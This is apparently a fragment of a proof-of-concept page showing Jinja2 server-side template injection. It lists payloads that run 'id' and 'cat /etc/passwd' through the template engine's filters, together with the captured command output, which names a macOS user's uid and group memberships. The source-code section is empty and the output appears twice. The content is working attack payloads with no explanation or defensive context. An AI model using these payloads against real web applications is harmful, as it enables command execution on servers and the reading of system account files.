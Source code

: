 
Execution Result

    Payload: {{['id']|map('system')|join}}

uid=501(<user_name>) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae) uid=501(<user_name>) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)

    Payload: {{['cat /etc/passwd']|map('system')|join}}
